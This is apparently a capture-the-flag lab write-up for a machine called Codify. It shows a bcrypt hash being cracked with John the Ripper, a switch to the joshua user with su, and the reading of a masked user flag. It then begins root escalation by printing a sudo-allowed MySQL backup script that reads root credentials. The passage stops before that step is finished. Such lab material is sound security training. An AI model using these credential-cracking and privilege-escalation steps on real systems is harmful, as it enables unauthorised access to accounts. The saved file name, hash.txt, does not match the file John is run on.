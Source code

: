 ## Cracking the Hash with John the Ripper
With a password hash in hand, I set out to crack it using John the Ripper. I first saved the hash to a file:
```bash
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt
```

Then I invoked John with rockyou wordlist:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt joshua_hash.txt
```
This successfully cracked the hash, revealing the password.

## Switching Users with su
With joshua's credentials, I was able to switch users and escalate privileges using the su command:
```bash
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## Reading the User Flag
Finally, as the joshua user I could read the protected user flag in /home/joshua/user.txt:
```bash
joshua@codify:~$ cat user.txt
9c38**************************423ce
```
This complete process of privilege escalation allowed me to pivot from my initial limited svc access to full access as joshua and capture the flag.


# Privilege Escalation to Root
After becoming the joshua user, I continued searching for further privilege escalation opportunities.

## sudo Permissions
Checking sudo permissions with sudo -l revealed joshua could run this script as root:
```bash
joshua@codify:/opt/scripts$ sudo -l

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

## Analyzing /opt/scripts/mysql-backup.sh
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

```